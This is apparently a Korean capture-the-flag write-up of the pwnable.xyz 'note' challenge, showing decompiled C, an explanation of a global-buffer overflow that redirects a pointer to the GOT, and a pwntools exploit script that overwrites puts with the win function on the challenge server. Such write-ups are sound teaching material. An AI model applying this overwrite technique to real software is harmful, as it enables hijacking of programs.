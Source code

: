 ```yaml
---
title: "[pwnable.xyz]note"
date: 2020-1-12
tags: [pwnable.xyz]
categories: [pwnable.xyz]
---
```


메인은 print_menu해주고 0번은 종료 1번은 edit_note() 2번은 edit_desc() 해준다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // eax

  setup();
  puts("Note taking 101.");
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        print_menu();
        v3 = read_int32();
        if ( v3 != 1 )
          break;
        edit_note();
      }
      if ( v3 != 2 )
        break;
      edit_desc();
    }
    if ( !v3 )
      break;
    puts("Invalid");
  }
  return 0;
}
```

edit_note는 원하는 사이즈만큼 받아서 전역변수 s에 값을 넣어줄 수 있다. 

```c
void edit_note()
{
  int size; // ST04_4
  void *buf; // ST08_8

  printf("Note len? ");
  size = read_int32();
  buf = malloc(size);
  printf("note: ");
  read(0, buf, size);
  strncpy(s, buf, size);
  free(buf);
}
```

edit_desc는 전역변수 buf에 입력을 받는다.

```c
ssize_t edit_desc()
{
  if ( !buf )
    buf = malloc(32uLL);
  printf("desc: ");
  return read(0, buf, 32uLL);
}
```

`edit_note` 에서 전역변수 s에 값을 넣을 때 buf 영역을 덮을 수 있다. 여기서 buf 영역을 어떤 함수의 got로 덮고 `edit_desc` 에서 `win` 함수 주소 넣어주면 해당 함수를 실행할 때 `win ` 함수가 호출될 것이다.

> exploit.py

```python
from pwn import *

def edit_note(length,content):
	sla('>','1')
	sla('?',str(length))
	sa(':',content)

def edit_desc(content):
	sla('>','2')
	sa(':',content)

if __name__ == '__main__':
	e = ELF('./challenge')
	#p = process('./challenge')
	p = remote('svc.pwnable.xyz',30016)
	sla = lambda x,y : p.sendlineafter(x,y)
	sa = lambda x,y : p.sendafter(x,y)

	edit_note(50,"A"*0x20 + p64(e.got['puts']))
	edit_desc(p64(e.symbols['win']))
	p.sendlineafter('>','3')
	p.interactive()
```